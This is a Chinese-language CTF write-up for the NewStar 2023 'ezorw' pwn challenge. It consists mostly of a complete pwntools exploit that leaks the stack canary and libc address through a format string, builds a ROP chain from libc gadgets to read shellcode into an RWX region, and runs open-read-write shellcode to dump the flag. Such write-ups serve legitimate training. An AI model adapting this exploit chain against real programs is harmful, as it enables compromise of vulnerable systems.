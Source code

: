 ```yaml
---
title: newstar2023 week3 - orw rop
date: 2023/10/11 12:00:00
tags:
    - noob
excerpt: 通过利用rwx区域和libc中的gadgets，成功构造payload读取shellcode并执行以获取flag。
---
```


## 文件分析

下载`ezorw`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序存在一片区域rwx，并且禁用了system，那么只要将shellcode写到那片区域，
再执行就可以了

那么没有gadgets怎么办？libc里应有尽有，只要知道了libcBase就可以拿到

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
sh = remote('node4.buuoj.cn', 28119)

# payload 1
sh.sendline(b'%11$p') # get canary
sh.recvline(b'x\n') # skip
canary = int(sh.recvline()[:18], 16)

elf = ELF('ezorw')
putsGot = elf.got['puts']
main = elf.symbols['main']

# payload 2, notice seccomp requires a balanced stack; place putsGot on stack
retAddr = 0x4013b2
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(retAddr) + p64(main) + p64(putsGot))

# payload 3, get puts@got
sh.sendlineafter(b'x\n', b'%13$s')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')

libcBase = putsGotAddr - 0x80ed0
popRsi = libcBase + 0x2be51
popRdxRbx = libcBase + 0x90529 # some gadgets in libc
readPlt = elf.plt['read']

# payload 4, make a read call to read shellcode to 0x66660000
sh.sendlineafter(b'now', b'0'*0x28 + p64(canary) + b'0'*8 + p64(popRsi) + p64(0x66660000) + p64(popRdxRbx) + p64(0x100) + p64(0) + p64(readPlt) + p64(0x66660000))

# payload 5, create orw shellcode
shc = asm(shellcraft.open('./flag') + shellcraft.read('rax', 'rsp', 0x100) + shellcraft.write(1, 'rsp', 0x100))
sh.sendline(shc)

sh.interactive()
```

Done.

